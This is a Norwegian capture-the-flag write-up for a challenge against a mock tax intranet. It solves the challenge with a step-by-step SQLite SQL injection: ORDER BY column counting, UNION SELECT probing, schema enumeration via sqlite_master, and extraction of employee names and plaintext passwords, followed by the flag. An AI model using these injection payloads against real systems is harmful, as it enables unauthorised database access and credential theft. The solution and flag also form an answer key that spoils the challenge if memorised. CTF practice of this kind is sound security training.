



# Snikende Bacon - Del 4

Vi kan vel si at dette systemet har flere hull en en sveitserost.

Man kan skrive opp Vilkårlig Filopplasting på rapporten også.

Men er det noe mer?

Vi hørte rykter om at passordene lå i klartekst i databasen! Kan det være sant? Kanskje en union av teknikker kan hjelpe deg å selektere riktig informasjon? 🥓

[🔗 https://skatt-intranett.chals.io/](https://skatt-intranett.chals.io/)

# Writeup

Klassisk SQL Injection sårbarhet i loggsøket. Ved å sende en enkelfnutt og dobbelfnutt `'"` så ser man 



Her ser man at det man skriver injiseres direkte inn i SQL spørringen to plasser og vi får hint om SQLite Så vi begynner med å enumerere kolonner ved å sende inn følgende:

```sql 
' ORDER BY 1--   -- OK
' ORDER BY 2--   -- OK
' ORDER BY 3--   -- OK
' ORDER BY 4--   -- OK
' ORDER BY 5--   -- FEIL → det er 4 kolonner
```

Så finner jeg ut hvilken kollonne som vises i output:

```sql
' UNION SELECT 'a','b','c','d'--
``` 



Her ser vi B og C er kolonner vi kan bruke. Da enumrerer vi tabeller i kolonne B:

```sql
' UNION SELECT 1,name,3,4 FROM sqlite_master WHERE type='table'--
```

Da får jeg `employees`, `logs` og `news`. Så prøver jeg å se hva slags kolonner som er i `employees` tabellen:

```sql
' UNION SELECT 1,sql,3,4 FROM sqlite_master WHERE name='employees'--
```

Gir 

```sql
[1.1.1970, 00:00:00] [3] CREATE TABLE employees ( id INTEGER PRIMARY KEY, title TEXT NOT NULL, name TEXT NOT NULL, email TEXT UNIQUE NOT NULL, image TEXT NOT NULL, password TEXT NOT NULL, access TEXT NOT NULL )
```

Da er det bare å hente ut navn og passord:

```sql
' UNION SELECT 1,name,password,4 FROM employees--
```




# Flag

```
skatt{un10n_s3l3ct_fl4g}
```
